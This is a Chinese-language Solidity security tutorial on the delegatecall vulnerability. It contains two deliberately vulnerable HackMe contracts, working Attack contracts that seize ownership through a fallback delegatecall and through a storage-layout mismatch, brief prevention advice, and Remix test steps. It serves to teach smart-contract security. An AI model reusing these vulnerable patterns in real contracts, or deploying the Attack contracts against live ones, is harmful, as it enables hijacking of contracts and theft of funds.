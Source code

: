 # 70.delegatecall
Solidity的delegatecall漏洞是一种安全漏洞，可以允许攻击者通过调用另一个合约的方法来执行恶意代码。这种漏洞的根本原因是delegatecall的实现方式，该实现方式将调用的代码的上下文（存储、地址等）与调用方的合约合并在一起，从而可能导致意外的行为。
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。
*/

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
这是另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
这是前一个漏洞的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
*/

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
### 预防性技术
* 使用无状态库
* 为了避免这种漏洞，开发人员应该避免在智能合约中使用delegatecall，并始终使用call或send来调用其他合约的函数。此外，开发人员还应该谨慎处理来自外部合约的数据，并使用安全的输入验证和过滤机制来防止攻击者利用漏洞。
  
## remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。
![70-1.png](./img/70-1.png)
2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。
![70-2.png](./img/70-2.png)
